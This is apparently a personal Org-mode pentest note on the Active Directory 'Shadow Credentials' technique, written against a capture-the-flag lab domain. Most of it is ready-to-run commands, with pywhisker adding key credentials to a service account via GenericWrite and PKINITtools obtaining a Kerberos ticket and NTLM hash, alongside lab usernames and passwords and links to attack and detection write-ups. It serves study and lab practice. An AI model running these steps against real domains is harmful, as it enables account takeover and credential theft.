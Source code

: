 :PROPERTIES:
:ID:       90fa1659-4cda-4c38-b534-1c6ac76c8fd1
:END:
#+title: Pentest - Active Directory - Shadow Credentials
#+filetags: :kerberos:
#+hugo_base_dir:../



* Shadow Credentials
[[https://github.com/ShutdownRepo/pywhisker][pywhisker]]

Abuse the GenericWrite ACL to get control of an account by adding shadow credentials:

#+begin_src shell -n
python3 /opt/pywhisker/pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
#+end_src

The output is a PFX cert that can be used to authenticate as the user. Get a =TGT= for the user with [[https://github.com/dirkjanm/PKINITtools][PKINITtools]]:

#+begin_src shell -n
python3 /opt/PKINITtools/gettgtpkinit.py -cert-pfx vGRMeeb9.pfx certified.htb/management_svc -pfx-pass '25nQ6mg4JUTeQEjjNRE2' management_svc.ccache
#+end_src

This will create a Kerberos ticket called management_svc.ccache file, which we can export and use the key this output provides in conjunction with =getnthash.py= from the same toolkit to get the NTLM hash of the management_svc user.

** See also: [[https://github.com/ShutdownRepo/targetedKerberoast][targetedKerberos]]   [[id:38f3437e-50b7-4ff2-b10c-7da71988828f][Targeted Kerberoast]]

** Links
[[https://www.dsinternals.com/en/indicator-of-compromise-shadow-credentials-ntlm-relay-impacket/][dsinternals]]
[[https://cyberstoph.org/posts/2022/03/detecting-shadow-credentials/][Detecting shadow credentials]]
[[https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials][hacker recipes]]
[[https://www.hackingarticles.in/shadow-credentials-attack/][hackingarticles]]
[[https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab][medium]]
